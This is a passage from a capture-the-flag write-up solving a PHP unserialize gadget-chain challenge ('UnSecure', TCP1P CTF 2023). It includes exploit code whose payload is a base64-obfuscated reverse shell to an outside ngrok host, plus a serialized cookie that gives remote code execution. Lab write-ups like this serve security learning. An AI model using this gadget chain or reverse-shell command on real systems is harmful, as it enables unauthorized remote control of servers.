 ``` php
        {
            echo $this->klass->get_x();
        }
    }
}
```
**GadgetThree\Vuln.php:**
``` php
<?php

namespace GadgetThree {
    class Vuln
    {
        public $waf1 = 1;
        protected $waf2 = "\xde\xad\xbe\xef";
        private $waf3 = false;
        public $cmd = 'system("echo c2ggLWkgPiYgL2Rldi90Y3AvMC50Y3AuYXAubmdyb2suaW8vMTAxMzggMD4mMQ== | base64 -d | bash");';
        function __toString()
        {
            eval($this->cmd);
        }
    }
}
```
**Exploit.php:**
```php
<?php

require 'vendor/autoload.php';

use GadgetOne\Adders;
use GadgetTwo\Echoers;
use GadgetThree\Vuln;

$echoers = new Echoers();
$serialize = base64_encode(serialize($echoers));
echo var_dump($serialize);

?>
```
Generate the serialized cookie, and set to website's cookie **cookie=TzoxNzoiR2FkZ2V0VHdvXEVjaG9...**, refresh page and got RCE!.
![Flag](/images/post/TCP1PCTF2023_UnSecure1.png)
**Flag:** TCP1P{unserialize in php go brrrrrrrr ouch}

